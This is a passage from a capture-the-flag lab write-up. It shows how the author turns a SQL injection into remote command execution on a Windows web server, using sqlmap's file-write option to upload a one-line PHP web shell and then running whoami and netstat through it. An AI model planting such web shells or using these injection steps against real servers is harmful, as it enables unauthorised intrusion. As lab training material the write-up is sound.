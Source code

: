 We now have the password for `hector` and `manager` but we can't get a remote
shell as port 5985 is not open.


## Remote command execution
Here I was stuck for a bit but then I remembered that sqlmap has the
`--file-write` option that allows to upload files, and given that the server is
vulnerable to SQL injection we can use it!

Let's copy one of the requests body from Burp in a file called `post`:
```
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.167
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.167/admin.php
Accept-Encoding: gzip, deflate
Accept-Language: en,en-US;q=0.9,it-IT;q=0.8,it;q=0.7,la;q=0.6,fr;q=0.5
Connection: close
X-Forwarded-For: 192.168.4.28

productName=test
```

Let's write the simplest PHP shell:
```
<?php
    echo system($_GET['cmd']);
?>
```

And upload it:
```
$ sqlmap -r post --file-dest='C:\inetpub\wwwroot\shell.php' --file-write shell.php
```

Now we can run commands like:
```
$ curl 'http://10.10.10.167/shell.php?cmd=whoami'
nt authority\iusr
```

One interesting thing is that WinRM is listening on port 5985:
```
$ curl 'http://10.10.10.167/shell.php?cmd=netstat+-ano'

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       816
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1848
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       452
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       312
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       952
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1684
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       584
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       592
```